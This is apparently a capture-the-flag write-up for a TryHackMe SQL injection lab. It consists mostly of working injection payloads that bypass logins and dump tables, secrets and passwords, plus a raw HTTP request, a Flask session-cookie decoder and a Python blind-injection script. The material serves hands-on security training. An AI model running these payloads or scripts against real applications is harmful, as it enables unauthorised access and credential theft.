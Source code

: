 # SQL Injection Lab

**Room Link:** [https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)



## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

```
1 or 1=1-- -
```

### **SQL Injection 2: Input Box String**

```
1' or '1'='1'-- -
```

### SQL Injection 3: URL Injection

```
$VICTIM:5000/sesqli3/login?profileID=1' or 1=1-- -&password=a
```

**SQL Injection 4: POST Injection**

```
POST /sesqli4/login HTTP/1.1
Host: 10.10.164.155:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://10.10.164.155:5000
Connection: close
Referer: http://10.10.164.155:5000/sesqli4/login
Cookie: session=.eJy90jFrYzEMB_Dv4jmDZUu2nPk46NLt5iLJMjyaNu17PUoJ-e7nXI-jQ4dM2SwJhH_--xQ2314PCzx0eZOwP4Vfdz_CHnbBn2Q5hH0Iu_AsTz5PP1d5tuOyXTqLPd5_dmf1Itv2clzf7tdZc4mUiCJgZPw3fD-ufY7QOI8aTUYWsCaGhrWnhuRxVB61Z5JqDVDYgaFkMU-ZBdS9gF62rcexHPxyxwBxNjY5yPoR9oniefcf83vz9WHpfyGfvXQLYC0aidFb0xoVW1UpyJkUnBw9RaCEVIs0kMo5C08rFNds2ebGa4HpG2C-BdBsoEGExuRZXWZydQpkFHVuOXJXm_Mxjbm7zgeY-WKx1HtDALsWmL8B4i2AvQnUwtgGWbFOM0TqQI3ZSKypKs_Pi105F-k8mDRy9QQ4BJpdnSB-AZ7_ABfzCOM.ZO_PVg.gxMIbBhBjlFSHtc1twhp3ImdLj4
Upgrade-Insecure-Requests: 1

profileID=-1%27%20or%201=1--%20-&password=a
```

## Introduction to SQL Injection: Part 2

Shows all the table names

```
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Show all fields from the table usertable

```
l FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Shows all the fields from the table secret

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
```

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Display all the values from the table secrets

```
',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='
```

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication

```
1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication&#x20;

```
Username: ' OR 1=1-- -
```

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

#### **decode\_cookie.py**

```
#!/usr/bin/python3
import zlib
import sys
import json
from itsdangerous import base64_decode


def decode(cookie):
    """
    Decode a Flask cookie

    https://www.kirsle.net/wizards/flask-session.cgi
    """
    try:
        compressed = False
        payload = cookie

        if payload.startswith('.'):
            compressed = True
            payload = payload[1:]

        data = payload.split(".")[0]

        data = base64_decode(data)
        if compressed:
            data = zlib.decompress(data)

        return data.decode("utf-8")
    except Exception as e:
        return f"[Decoding error: are you sure this was a Flask session cookie? {e}]"


cookie = sys.argv[1]
data = decode(cookie)
json_data = json.loads(data)
pretty = json.dumps(json_data, sort_keys=True, indent=4, separators=(",", ": "))
print(pretty)

```



<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

```
python decode_cookie.py .eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.ZPCIPg.GEqyzNXd85i4M0Oqpt9ITOmwTOM
```

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>



```
' UNION SELECT 1,NULL-- -
```

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,2-- - 
```

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

Enmerutate passwords, the below only returns the first result which we probably don't want.

```
' UNION SELECT 1, password from users-- -
```

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

This way concats all the passwords

```
' UNION SELECT 1,group_concat(password) FROM users-- -
```

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication 3 (Blind Injection)

#### challenge3-exploit.py

```
#!/usr/bin/python3
import sys
import requests
import string


def send_p(url, query):
    payload = {"username": query, "password": "admin"}
    try:
        r = requests.post(url, data=payload, timeout=3)
    except requests.exceptions.ConnectTimeout:
        print("[!] ConnectionTimeout: Try to adjust the timeout time")
        sys.exit(1)
    return r.text


def main(addr):
    url = f"http://{addr}/challenge3/login"
    flag = ""
    password_len = 38
    # Not the most efficient way of doing it...
    for i in range(1, password_len):
        for c in string.ascii_lowercase + string.ascii_uppercase + string.digits + "{}":
            # Convert char to hex and remove "0x"
            h = hex(ord(c))[2:]
            query = "admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1)," \
                f"{i},1)=CAST(X'{h}' AS TEXT)--"

            resp = send_p(url, query)
            if not "Invalid" in resp:
                flag += c
                print(flag)
    print(f"[+] FLAG: {flag}")


if __name__ == "__main__":
    if len(sys.argv) == 1:
        print(f"Usage: {sys.argv[0]} MACHINE_IP:PORT")
        sys.exit(0)
    main(sys.argv[1])

```



**Kali**

```
python challenge3-exploit.py $KALI:5000
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Vulnerable Notes

Create user

```
Username: '  union select 1,group_concat(password) from users'
Password: blah
```



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (5).png" alt=""><figcaption></figcaption></figure>



## Vulnerable Startup: Change Password

**Signup**

```
Username: admin'-- -
```

## Vulnerable Startup: Book Title

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (6).png" alt=""><figcaption></figcaption></figure>

```
') union select 1,group_concat(username),group_concat(password),4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (2).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Book Title 2

```
' union select '-1''union select group_concat(username),group_concat(password),3,4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
